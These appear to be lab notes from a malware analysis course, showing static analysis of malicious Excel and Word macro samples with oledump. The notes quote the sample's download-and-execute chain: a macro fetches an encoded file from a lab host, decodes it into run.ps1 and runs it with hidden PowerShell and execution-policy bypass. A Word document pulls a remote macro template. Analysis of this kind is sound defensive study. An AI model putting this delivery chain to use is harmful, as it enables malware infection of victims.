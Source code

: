 # Introduction
In this section we explore basics static analysis on excel file using [oledump](https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py) tool.

sample: **PMAT-labs/labs/3-1.GonePhishing-MaldocAnalysis/Excel/sheetsForFinancial.7z**


# Excel Basic Analysis
The .xlsm extensions means its excel file with macro.
Infect if we unzip this file we notice the are few file inside.
![[Pasted image 20250114063330.png]]

The vbaProject.bin contains the possible macro
![[Pasted image 20250114063458.png]]
using oledump we can see in the 3 section we have the macro
```bash
oledump.py vbaProject.bin
```
![[Pasted image 20250114063552.png]]
with oledump its possible view the strings inside of macros with `-S` flag
```bash
oledump.py -s 3 -S vbaProject.bin
```

with oledump its possible decompress the macro section to view the code macro
```bash
oledump.py -s 3 --vbadecompress vbaProject.bin
```

![[Pasted image 20250114063827.png]]

## Code Analysis
As we can see the macro call the `http://srv3.wonderballfinancial.local/abc123.crt` endpoint and download the certificate, after use `cmd` command to decode the the `encd.crt` write `run.ps1` and execute the script with PowerShell `c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W Hidden .\run.ps1`
![[Pasted image 20250114064445.png]]

# Word Basic Analysis
The word file .docm contains a macro we can verify that with oldedump, this contains the same code of the excel
![[Pasted image 20250114220608.png]]

Unziped the .docx word file
![[Pasted image 20250114220842.png]]
under the `\word\_rels\settings.xml.rels` we can notice the target argument of the file download a macro file `.dotm`

![[Pasted image 20250114221304.png]]
We the docx will be executed that get and executed the `macro3.dotm` file